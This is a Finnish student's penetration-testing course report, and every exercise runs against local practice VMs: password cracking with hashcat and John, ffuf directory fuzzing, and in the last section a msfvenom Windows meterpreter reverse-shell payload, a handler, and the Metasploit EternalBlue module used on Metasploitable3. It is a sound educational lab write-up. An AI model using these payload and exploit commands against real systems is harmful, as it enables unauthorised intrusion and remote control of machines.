



# Scanning Cyberspace _by Saku Laitinen_

## Sisällysluettelo

- **[Johdanto](https://github.com/KebabGarva/Tunkeutumistestaus2024-bgu248/blob/main/h3.md#Johdanto)**
- **[Lämmittelytehtävä](https://github.com/KebabGarva/Tunkeutumistestaus2024-bgu248/blob/main/h3.md#Lämmittelytehtävä)**
- **[Hashcatin asennus ja toiminta](https://github.com/KebabGarva/Tunkeutumistestaus2024-bgu248/blob/main/h3.md#Hashcatin-asennus-ja-toiminta)**

  
## Johdanto

### Mitä?

Tämä raportti on tehty Tero Karvisen toteuttaman kurssin [Tunkeutumistestaus](https://terokarvinen.com/2024/eettinen-hakkerointi-2024/) yhteydessä.
Tämä raportti kertoo läpikohtaisesti, mitä tein tehtävän h3 eteen.
Sisällysluettelon linkkejä painamalla pystyy navigoimaan suoraan haluttuun kohtaan.

### Missä?

Toteutin tehtäviin liittyvät komennot fyysisessä Windows 11 - ja virtuaalisissa Kali-ympäristöissä hyödyntämällä [Virtualboxia](https://www.virtualbox.org/) ja [Vagrantia](https://developer.hashicorp.com/vagrant).
Spesifoin tarkemmin kappaleen alussa, mitkä ovat käytettävän/käytettävien käyttöjärjestelmien tiedot. 

**Tietokoneet**

- [*Fyysinen kone: Lenovo Legion 7 16ACHg6*](https://nanoreview.net/en/laptop/lenovo-legion-7-2021-amd?m=c.1_g.3_r.3_s.3)
- [Vagrant: kalilinux/rolling](https://app.vagrantup.com/kalilinux/boxes/rolling)
- [Vagrant: rapid7/metasploitable3-win2k8](https://app.vagrantup.com/rapid7/boxes/metasploitable3-win2k8)

------------------------------------------------------------------------------------------------------------

**VagrantFile -konfiguraatiotiedoston sisältö tehtävien aloitusvaiheessa:**

```
# -*- mode: ruby -*-
# vi: set ft=ruby :
# Copyright 2024 Saku Laitinen https://github.com/KebabGarva/

$tscript = <<TSCRIPT
echo "running apt-get update aww yea"
apt-get update
echo "Okay, let's do this - https://github.com/KebabGarva/"
TSCRIPT

Vagrant.configure("2") do |config|
	config.vm.synced_folder ".", "/vagrant", disabled: true
	config.vm.synced_folder "shared/", "/home/vagrant/shared", create: true
	config.vm.provision "shell", inline: $tscript

	config.vm.define "s001" do |s001|
		s001.vm.hostname = "s001"
		s001.vm.network "private_network", ip: "192.168.56.101"
		s001.vm.box = "kalilinux/rolling"
	end

	config.vm.define "s002" do |s002|
		s002.vm.hostname = "s002"
		s002.vm.network "private_network", ip: "192.168.56.102"
		s002.vm.box = "rapid7/metasploitable3-win2k8"
	end
	
end
```


### Milloin?

Testit suoritettiin 19.4. - 20.4. välillä. Oikoluin raportin 20.4.

## Lämmittelytehtävä

<details>

<summary>a)</summary>

### ffuf ja sen toiminta

- Tero Karvisen artikkeli fuffista, verkon fuzzausohjelmasta
- ffufin avulla voidaan löytää piilotettuja hakemistoja
	- Karvinen ohjeistaa lukijaa katkaisemaan verkkoyhteyden internetiin testauksen ajaksi, jotta fuzzauspaketteja ei vuoda nettiin.
- Artikkeli sisältää ohjeet fuzzauksen harjoitteluun
	- Harjoitusmaalin asennus
	- ffufin asennus
	- Yleisten verkkopolkujen asennus
	- ffufin pikaohje

https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/

</details>

<details>

<summary>b)</summary>

### Hashcat 

- Tero Karvisen artikkeli Hashcatista, jolla voi murtaa salasanan enkryptoinnin
- Sisältää ohjeet Hashcatin käyttöön
  - Hashcatin asennus
  - Sanankirjan lisääminen Hashcatiin
  - Hashin tunnistaminen ja määrittäminen
  - Hashin murtaminen

https://terokarvinen.com/2022/cracking-passwords-with-hashcat/

</details>

<details>

<summary>c)</summary>


### John -sanakirjahyökkäys

- Tero Karvisen artikkeli Johnista, joka käyttää suurta sanakirjaa salasanan murtamiseen
- Artikkeli on pikaohje Johnin käyttöön
  - Tarvittavien työkalujen kuten micron ja gitin asennus Johnin käyttöön
  - Johnin lataaminen Githubin kautta, ja Johnin oikeaoppinen asennus
  - ZIP -tiedoston salasanasuojauksen murtaminen

https://terokarvinen.com/2023/crack-file-password-with-john/

</details>

------------------------------------------------------------------------------------------------------------

Käynnistin virtuaalikoneet fyysisellä koneellani ennen tehtävien aloittamista.

```
vagrant up
```

Kalin asennus onnistui:


Metasploitable 3:n asennus onnistui:


Metasploitable 3 antaa error-viestin, koska se yritti apt-get update -komentoa powershellissä. Asennus kuitenkin onnistui!

Testaan yhteyttä ping-komennolla:

```
vagrant ssh s001
ping 192.168.56.102
```


Yhteys on muodostettu onnistuneesti. Siirrytään tehtävien tekoon.

## Hashcatin asennus ja toiminta

Toteutin seuraavat vaiheet hyödyntämällä Tero Karvisen Hashcat -pikaohjetta, jonka tiivistin lämmittelytehtävässä. (Klikkaa [tästä](https://terokarvinen.com/2022/cracking-passwords-with-hashcat/) pikaohjeeseen)

Asennetaan Hashcat, luodaan hashcatin tuloksille hakemisto, ladataan Rockyou -sanakirja murtamisen avuksi ja kompressoidaan sanakirja.

```
sudo apt-get update
sudo apt-get -y install hashid hashcat wget
mkdir hashattu && cd hashattu
pwd
ls
wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz
tar xf rockyou.txt.tar.gz
rm rockyou.txt.tar.gz
pwd
ls
```


Sanakirjassa on noin 14,3 miljoonaa sanaa!


Poimin satunnaisen hashin listalta, jonka sain komennolla `hashcat --example-hashes`

```
9e9283e633f4a7a42d3abc93701155be8afe5660da24c8758e7d3533e2f2dc82
```


Tarkistin hashin tyypin, ja pyrin ratkaisemaan sen seuraavilla komennoilla:

```
hashid -m 9e9283e633f4a7a42d3abc93701155be8afe5660da24c8758e7d3533e2f2dc82
hashcat -m 1400 '9e9283e633f4a7a42d3abc93701155be8afe5660da24c8758e7d3533e2f2dc82' -o ratkaistu
```


Hashcatin mukaan minulla ei ollut tarpeeksi muistia hyökkäykselle. Kävin tarkistamassa, kuinka paljon muistia minulla on.

```
grep MemTotal /proc/meminfo
```


Minun virtuaalikoneessani on vain 2 gigatavua muistia, joten kokeilen yksinkertaisempaa hashia seuraavaksi. Sain tämän hashin samalta listalta kuin aiemman hashin. Putkitetulla komennolla `less` poimin ensimmäisen listalla olevan esimerkkihashin.

```
8743b52063cd84097a65d1633f5c74f5
```

Kokeilin murtaa uuden hashin, ja virtuaalikoneessa ei ollut vieläkään tarpeeksi muistia.

```
hashcat -m 0 '8743b52063cd84097a65d1633f5c74f5' -o ratkaistu
```


Koska virtuaalikoneiden lataamisessa meni hyvin pitkä aika, kokeilin muokata konfiguraatiota, ja käynnistää virtuaalikoneet uudelleen.

------------------------------------------------------------------------------------------------------------

**Muokattu konfiguraatio virtuaalikoneelle s001:**

```
	config.vm.define "s001" do |s001|
		s001.vm.hostname = "s001"
		s001.vm.network "private_network", ip: "192.168.56.101"
		s001.vm.box = "kalilinux/rolling"
		s001.vm.provider "virtualbox" do |vb|
			vb.memory = 8192
			vb.cpus = 4
		end
	end
```

------------------------------------------------------------------------------------------------------------

Seuraavaksi rukoilin kaikille jumalille, että konfiguraatio toimii, ja pääsen ratkaisemaan tehtävää.

```
exit
vagrant reload
vagrant ssh s001
grep MemTotal /proc/meminfo
```


Rukoilu näytti onnistuneen! Yritän murtaa hashin uudelleen entistä varmemmalla otteella.

```
pwd
ls
cd hashattu
hashcat -m 0 '8743b52063cd84097a65d1633f5c74f5' rockyou.txt -o ratkaistu
```


Tässä vaiheessa totesin itselleni, että kopioin esimerkkikomennon Karvisen artikkelista, ja kokeilen mitä käy.

```
hashcat -m 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved
pwd
ls
cat solved
```


Ainakin artikkelin esimerkki toimi onnistuneesti! Haluan vielä yrittää

```
hashcat -m 0 '8743b52063cd84097a65d1633f5c74f5' rockyou.txt -o ratkaistu --force
```


Se selvisi minulle välittömästi. Kyseistä hashia ei ole rockyou.txt -tiedoston sisällä. Pystyin huokaisemaan helpotuksesta


## Harjoitusmaali dirfuzt-1 fuzzauskohteena

Hyödynsin Karvisen artikkelia "[Find Hidden Web Directories - Fuzz URLs with ffuf](https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/)" pohjana tehtävän tekemisessä. (kiitos teroboss taas mahtavasta artikkelista)

Latasin harjoitusmaalin hakemistoon ffuf1 seuraavasti.

```
cd
mkdir ffuf1 ; cd ffuf1
pwd
ls
wget https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/dirfuzt-1
ls
```


Tarkistin seuraavaksi ffuf:n asennuksen. Tiesin etukäteen, että Kalin pakettivarastossa on ffuf.

```
sudo apt-get install ffuf
```


Latasin seuraavaksi sanakirjan tätä tehtävää varten.

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt
pwd
ls
```


Tämän jälkeen irroitin fyysisen koneeni internetistä. Koin sen olevan kaikista helpoin ja varmin ratkaisu.


Tämän jälkeen vaihdoin luvat ja pyrin suorittamaan maalitiedoston.

```
chmod u+x dirfuzt-1
./dirfuzt-1
```


Kokeilin fuzzata heti testiksi, toimiiko se varmasti. Placeholdernimi jäi sinne tällä kertaa.

```
ffuf -w common.txt -u http://127.0.0.2:8000/FUZZ
```


Ainakin toi fuzzaus toimii!

Kokeilin löytää tapoja etsiä adminin sivu.

```
cat common.txt | grep admin | less
```

Tajusin myöhemmin, että palauttavat Fuzzaukset alkavat aina avainsanalla Status. Huomasin kaikkien ei haluttujen kokojen olevan 154, joten filtteröin sen pois. Kokeilin komentoa uudestaan seuraavasti:

```
ffuf -w common.txt -u http://127.0.0.2:8000/FUZZ -fs 154
```


Taisin löytää kaikki!

```
.git                    [Status: 301, Size: 41, Words: 3, Lines: 3, Duration: 0ms]
.git/index              [Status: 200, Size: 178, Words: 6, Lines: 11, Duration: 0ms]
.git/config             [Status: 200, Size: 178, Words: 6, Lines: 11, Duration: 0ms]
.git/HEAD               [Status: 200, Size: 178, Words: 6, Lines: 11, Duration: 2ms]
.git/logs/              [Status: 200, Size: 178, Words: 6, Lines: 11, Duration: 1ms]
wp-admin                [Status: 200, Size: 182, Words: 6, Lines: 11, Duration: 7ms]
```

Menin Kalin kautta Firefoxiin, ja syötin seuraavat tiedot url-kenttään.

```
http://127.0.0.2:8000/wp-admin
http://127.0.0.2:8000/.git
```


```
FLAG{tero-wpadmin-3364c855a2ac87341fc7bcbda955b580}
```


```
FLAG{tero-git-3cc87212bcd411686a3b9e547d47fc51}
```

Tapoin prosessin välittömästi:

```
killall dirfuzt-1
```


Yhdistin koneen verkkoon takaisin.


## John The Ripper murtaa ZIP -tiedoston salasanan

John on Kalin pakettivarastossa, mutta kirjoitin seuraavan komennon varmistaakseni asennuksen:

```
sudo apt-get update
sudo apt-get install john
```


Käytin Tero Karvisen pikaohjetta Johnista pohjana tehtävääni. (Klikkaa [tästä](https://terokarvinen.com/2023/crack-file-password-with-john/) artikkeliin)

Latasin seuraavaksi tarvittavat ohjelmistopaketit, jotta voin käyttää Johnia kunnolla:

```
sudo apt-get -y install micro bash-completion git build-essential libssl-dev zlib1g zlib1g-dev libbz2-1.0 libbz2-dev atool zip
```


Kirjoitin `john`


Latasin Karvisen ZIP -tiedoston, joka on salasanasuojattu. 

```
wget https://TeroKarvinen.com/2023/crack-file-password-with-john/tero.zip
pwd
ls
```


Kokeilin läpällä avata tiedoston heti, mutta oletettavasti se oli salasanasuojattu.


Seuraavaksi erotin hashin, ja tein siitä oman tiedostonsa. Sen jälkeen toteutin sanakirjahyökkäyksen.

```
john tero.zip >zip.hash
john tero.zip.hash
```


Hämmennyin, mikä on homman nimi. Nopean googlauksen perusteella minun pitäisi käyttää zip2john -komentoa, kun erotan ZIP -tiedostosta hashin. Kokeilin uudestaan. Ohjeessakin on spesifoitu zip2john.

```
zip2john tero.zip > tero.zip.hash
john tero.zip.hash
```


Vaikka tiesin artikkelin perusteella salasanan olevan butterfly, todistin sen itse johnilla.

## Ffufme harjoitusmaalina

Latasin ensin docker.io -ohjelmistopaketin ja ffufme -kohteen.

```
sudo apt-get install docker.io
git clone https://github.com/adamtlangley/ffufme
cd ffufme/
pwd
ls
sudo docker build -t ffufme .
```


Tämän jälkeen käynnistin ja testasin palvelun olevan päällä.

```
sudo docker run -d -p 80:80 ffufme
curl localhost
```


Latasin seuraavat sanalistat:

```
wget http://ffuf.me/wordlist/parameters.txt 
wget http://ffuf.me/wordlist/subdomains.txt
```


Katkaisin yhteyden taas ffuf:n käytön ajaksi. Siirryin myös suoraan Kaliin, koska tehtävät oli graafisessa selaimessa.


<details>

<summary>Basic Content Discovery</summary>

Aloin suorittamaan tehtävää, ja oletin kokonaisuuden olevan jotain copy-pastettavaa.


Huomasin heti, että common.txt -listani on eri sijainnissa, joten muutin sen välittömästi.

```
ffuf -w ~/ffufme/common.txt -u http://localhost/cd/basic/FUZZ 
```
Hups! Ei tainnut tiedosto olla siellä! Tajusin tämän jälkeen kopioida common.txt -tiedoston myös ffufme -kansioon.



Kokeilin uudestaan.

```
ffuf -w ~/ffufme/common.txt -u http://localhost/cd/basic/FUZZ 
```


Nyt onnistuin!

</details>

<details>

<summary>Recursion</summary>


Pyöritin seuraavan komennon paljastaakseni hakemistot /admin, /admin/users ja /admin/users/96

```
ffuf -w ~/ffufme/common.txt -recursion -u http://localhost/cd/recursion/FUZZ 
```


Kaboom!

</details>


<details>

<summary>File extensions</summary>


Tarkoituksena oli löytää /logs/users.log. Pyöritin seuraavan komennon:

```
ffuf -w ~/ffufme/common.txt -e .log -u http://localhost/cd/ext/logs/FUZZ
```


Tässä vaiheessa totesin, että "I'm fuzzin' fast af boiii". 


*p.s koin tarpeelliseksi lisätä tämän kommentin kuvatakseni järjen menettämistä tehtävänteon aikana.*

</details>

<summary>No 404 status</summary>


Selvitin, miten voin varmistaa verkkosivun nykyisen tilan fuzzilla. Kyseisen errorin koodi on aina 669 kokoinen.

```
ffuf -w ~/ffufme/common.txt -u http://localhost/cd/no404/FUZZ -fs 669
```


Onneksi on olemassa asia kuin ffuf! Rakastan ffufia! Haluan lisää ffuf -tarroja! `secret` löytyi nopeasti.

</details>


<summary>Param mining</summary>


Löysin kadonneen parametrin `debug` seuraavalla komennolla:

```
ffuf -w ~/ffufme/parameters.txt -u http://localhost/cd/param/data?FUZZ=1
```


</details>

</details>

<summary>Rate limited</summary>


Tarkoituksena oli löytää oracle-tiedosto. Sen löysin helposti, koska copy-pastesin tarvittavan komentopohjan.

Seuraavan komennon pistin komentokehotteeseen:

```
ffuf -w ~/ffufme/common.txt -t 5 -p 0.1 -u http://ffuf.test/cd/rate/FUZZ -mc 200,429

```
Tää oli nii hidasta fuzzausta, että ei mitään rajaa. Tämän olisi pitänyt olla kaikista viimeisin tehtävä, mutta ei mitään. Odottelin rauhassa. Leikin, että olisin odottamassa junaa jossain kehitysmaassa.


Jätin tämän tehtävän kokeiltavaksi vasta myöhemmälle, koska minulla ei ollut ylimääräistä aikaa tämän kanssa.

</details>

<summary>Virtual Host Enumeration</summary>


Tarkoituksena on löytää redhat -aladomain. Se löytyy seuraavalla komennolla.

```
ffuf -w ~/ffufme/subdomains.txt -H "Host: FUZZ.ffuf.me" -u http://localhost -fs 1495
```


</details>

-------------------------------------------------

Yhdistin tehtävien jälkeen takaisin verkkoon, jotta voin valmistautua seuraavaan tehtävään.

## Luodaan msfvenomilla reverse-shell -haittaohjelma ottaakseen hallinnan metasploitable3 -tietokoneesta

Löysin kätevän ohjeen 101LABS.net -verkkosivulta, miten tehdä reverse shell. Hyödynsin paljon sitä. (Klikkaa [tästä](https://www.101labs.net/comptia-security/lab-75-establishing-a-reverse-shell-on-a-linux-target-using-msfvenom-and-metasploit/) artikkeliin!)

Katkaisin verkkoyhteyden, ja varmistin sen olevan katkaistu.


Tarkistin, että voin ottaa yhteyttä metasploitable3 -tietokoneeseen.


Kävin selvittämässä koneen tilan.



Se oli mennyt pois päältä. En ole ihan varma miksi. Todennäköisesti Windows tekee omiaan.

Käynnistin koneet uudelleen.


Yhdistin kaliin takaisin, ja tarkistin yhteyden metasploitable3 -virtuaalikoneeseen uudelleen.


Noniin! Nyt pääsin suoraan asiaan.

Pyöritin seuraavat komennot käynnistääkseen samat palvelut, mitä käynnistin tehdessäni db_nmap -skannausta tehtävässä h2.

```
sudo systemctl start postgresql
sudo msfdb init
```


Pistin seuraavan komennon pyörimään kokeillakseni, voinko korvata sanan Linux sanalla Windows:

```
msfvenom -p windows/x86/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=5555 -f elf -o reverse-sh.elf
```


Joo... Ei toiminut. Kokeilin eri payloadia, joka löytyi Metasploitablen artikkelista. (Klikkaa [tästä](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html) artikkeliin!)

Vaihdoin komentoa ja kokeilin uudestaan:

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.56.101 lport=4444 X > pahapiru.exe
```


Lähetin payloadin seuraavasti:

```
ftp 192.168.56.102
username: vagrant
password: vagrant
put pahapiru.exe
ls
```


BUAHAHAHAHAHA!!!!!! Seuraavaksi payload handler ja reverse shelliin pääsy

```
msfconsole -q
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.56.101
set lport 4444
run
```


Loin toisen terminaali-ikkunan, jotta voin jatkaa tehtävässä eteenpäin.


Yhdistin ssh-yhteydellä metasploitable 3 -koneelle.

```
ssh vagrant@192.168.56.102
```



En ihan ymmärtänyt, minne FTP -protokolla siirsi tiedoston.

Hirveän pitkän tuskailun jälkeen annoin itselleni hieman löysää, ja menin VIRTUALBOXIN kautta metasploitable3 -koneelle. Kirjoitin File Explorerin hakulaatikkoon `ftp://192.168.56.101` ja pääsin kirjautumaan.


Pyöritin tiedoston.


MASSIIVINEN pettymys.

Se ei vaan voi yksinkertaisesti pyörittää tuota exe -tiedostoa. Päätin kokeilla eternalblueta.

```
use exploit/windows/smb/ms17_010_eternalblue
set rhost 192.168.56.102
set lhost 192.168.56.101
set lport 4321
run
```


Halusin huutaa ilosta, mutta kello oli jo kolmelta aamuyöstä!


## Windowsiin graafinen etähallintayhteys Linuxista


